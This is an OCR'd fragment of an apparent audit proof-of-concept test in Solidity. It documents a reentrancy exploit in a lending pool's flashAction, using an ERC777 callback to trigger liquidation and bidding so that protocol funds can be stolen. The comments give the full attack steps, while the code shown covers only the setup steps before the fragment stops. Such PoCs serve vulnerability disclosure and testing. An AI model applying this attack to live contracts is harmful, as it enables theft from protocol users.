             // Approve creditor from actiontarget for bid payment
            vm.startPrank(address(actionHandler));
            mockERC20.token777.approve(address(pool), type(uint256).max);
    
        }
    
        /////////////////////////////////////////////////////////////////
        //                           POC                               //
        /////////////////////////////////////////////////////////////////
        /// @notice Test exploiting the reentrancy vulnerability. 
        /// Prerequisites:
        /// - Create an actionTarget contract that will trigger the attack flow using the ERC777 callback when receiving the 
        ///   borrowed funds in the flash action.
        /// - Have some liquidity deposited in the pool in order to be able to borrow it
        /// Attack:
        /// 1. Open a margin account in the creditor to be exploited.
        /// 2. Deposit a small amount of collateral. This amount needs to be big enough to cover the `minUsdValue` configured
        /// in the registry for the given creditor.
        /// 3. Create the `actionData` for the account's `flashAction()` function. The data contained in it (withdrawData, transferFromOwnerData,
        /// permit, signature and actionTargetData) can be empty, given that such data is not required for the attack.
        /// 4. Trigger LendingPool.flashAction(). The execution flow will:
        ///     a. Mint the flash-actioned debt to the account
        ///     b. Send the borrowed funds to the action target
        ///     c. The action target will execute the ERC777 `tokensReceived()` callback, which will:
        ///        - Trigger Liquidator.liquidateAccount(), which will set the account in an auction state
        ///        - Trigger Liquidator.bid(). 
     
        function testVuln_reentrancyInFlashActionEnablesStealingAllProtocolFunds(
            uint128 amountLoaned,
            uint112 collateralValue,
            uint128 liquidity,
            uint8 originationFee
        ) public {   
    
            //----------            STEP 1            ----------//
            // Open a margin account
            vm.startPrank(users.accountOwner);
            proxyAccount.openMarginAccount(address(pool)); 
            
            //----------            STEP 2            ----------//
            // Deposit 1 stable token in the account as collateral.
            // Note: The creditors's `minUsdValue` is set to 1 * 10 ** 18. Because
            // value is converted to an 18-decimal number and the asset is pegged to 1 dollar,
            // depositing an amount of 1 * 10 ** 6 is the actual minimum usd amount so that the 
            // account's collateral value is not considered as 0.
            depositTokenInAccount(proxyAccount, mockERC20.stable1, 1 * 10 ** 6);
            assertEq(proxyAccount.getCollateralValue(), 1 * 10 ** 18);
    
            //----------            STEP 3            ----------//
            // Create empty action data. The action handler won't withdraw/deposit any asset from the account 
            // when the `flashAction()` callback in the account is triggered. Hence, action data will contain empty elements.
            callData = _buildActionData();
    